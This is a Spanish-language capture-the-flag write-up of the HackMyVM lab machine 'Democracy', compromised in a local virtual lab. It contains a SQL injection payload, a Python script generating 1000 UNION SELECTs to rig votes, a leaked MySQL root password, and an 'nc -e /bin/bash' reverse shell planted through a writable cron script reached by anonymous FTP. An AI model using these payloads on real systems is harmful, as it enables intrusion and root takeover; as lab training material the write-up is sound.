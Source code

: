 ```yaml
---
layout: post
title: Democracy - Hackmyvm
tags: [ctf, hackmyvm]
---
```


**Autor**: Cromiphi \\
**Dificultad**: Medio

![img](/imgs/write-ups/hackmyvm/democracy/democracy.png#center)

## Reconocimiento

Lo primero es realizar una enumeración de los puertos abiertos.

```
$ sudo nmap -p- 192.168.1.83    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-31 09:13 EDT
Nmap scan report for 192.168.1.83
Host is up (0.00018s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:79:71:ED (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.74 seconds
```

### 80 (Http)

Enumero ficheros y directorios en la página web con **gobuster**.

```
$ gobuster dir -u http://192.168.1.83 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x php
===============================================================
[...]
/index.php            (Status: 200) [Size: 2676]
/images               (Status: 301) [Size: 313] [--> http://192.168.1.83/images/]
/.php                 (Status: 403) [Size: 277]
/login.php            (Status: 200) [Size: 2115]
/register.php         (Status: 200) [Size: 2116]
/vote.php             (Status: 302) [Size: 0] [--> login.php]
/javascript           (Status: 301) [Size: 317] [--> http://192.168.1.83/javascript/]
/config.php           (Status: 200) [Size: 0]
```

Navego a "/register.php" y creo un usuario.

![img](/imgs/write-ups/hackmyvm/democracy/democracy_1.png#center)

Una vez iniciada sesión, soy redirigido a "/vote.php" donde se puede ver un formulario para realizar la votación.

Hago una votación y la capturo con **burpsuite**.

![img](/imgs/write-ups/hackmyvm/democracy/democracy_2.png#center)

Tras muchos intentos y pruebas, descubro que se puede hacer SQLinjection con el parámetro "candidate" y de esta forma añadir mas de una votación en una sola.

![img](/imgs/write-ups/hackmyvm/democracy/democracy_3.png#center)

Este es el codigo con "URL encode".

```
candidate=democrat')+union+SELECT+1,"democrat"+--+-
```

## Explotación

Para que un partido gane, es necesario llegar a los 1000 votos, por lo que creo un script que me genere la consulta completa, la cual introduciré en burpsuite.

generate_injection.py:
```python
#!/bin/python3

result = "democrat')+"

for i in range(1,1001):
   result = result + 'union+SELECT+'+str(i)+',"democrat"+'
result = result + "--+-"

print(result)
```

Ahora lo introduzco en burpsuite y rápidamente soy redirigido a "systemopening.php".

![img](/imgs/write-ups/hackmyvm/democracy/democracy_4.png#center)

Si realizo otra enumeración de puertos, se puede ver que se ha abierto un servidor FTP.

```
$ sudo nmap -p- 192.168.1.83
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-31 09:29 EDT
Nmap scan report for 192.168.1.83
Host is up (0.00011s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:79:71:ED (Oracle VirtualBox virtual NIC)
```

Al conectarme como usuario "Anonymous" encuentro un script que se ejecuta cada minuto.

```
$ ftp 192.168.1.83      
Connected to 192.168.1.83.
220 ProFTPD Server (Debian) [::ffff:192.168.1.83]
Name (192.168.1.83:kali): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||27733|)
150 Opening ASCII mode data connection for file list
drwxr-xr-x   2 ftp      nogroup      4096 Apr 30 11:49 .
drwxr-xr-x   2 ftp      nogroup      4096 Apr 30 11:49 ..
-rwxrwxrwx   1 root     root          258 Apr 30 15:02 votes
226 Transfer complete
ftp>
```

votes:
```sh
#! /bin/bash

## this script runs every minute ##

#!/bin/bash

mysql -u root -pYklX69Vfa voting << EOF

SELECT COUNT(*) FROM votes WHERE candidate='republican';

SELECT COUNT(*) FROM votes WHERE candidate='democrat';

EOF

nc -e /bin/bash 192.168.0.29 4444
```

Ahora solo queda modificar la reverse shell y esperar a que se conecte.

```
$ ftp 192.168.1.83
Connected to 192.168.1.83.
220 ProFTPD Server (Debian) [::ffff:192.168.1.83]
Name (192.168.1.83:kali): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put votes
local: votes remote: votes
229 Entering Extended Passive Mode (|||43109|)
150 Opening BINARY mode data connection for votes
100% |**********************************************************************|   258        8.20 MiB/s    00:00 ETA
226 Transfer complete
258 bytes sent in 00:00 (388.21 KiB/s)
ftp>
```

```
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.1.86] from (UNKNOWN) [192.168.1.83] 60898
script -qc /bin/bash /dev/null
root@democracy:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@democracy:~# :)
```

Sorpresa!! Root directamente.

Muchas gracias a **Cromiphi** por esta máquina.
